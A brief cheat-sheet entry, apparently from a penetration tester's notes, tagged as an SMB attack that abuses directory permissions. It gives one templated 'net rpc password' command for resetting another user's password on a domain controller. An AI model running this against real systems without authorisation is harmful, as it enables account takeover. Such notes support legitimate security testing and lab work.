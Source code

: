 # samba

## change user password
#plateform/linux #target/remote  #port/445 #protocol/smb #cat/ATTACK/DACL-ABUSE 
```
net rpc password '<target_user>' '<new_password>' -U '<domain_netbios>'/'<user>'%'<password>' -S "<dc>"
```
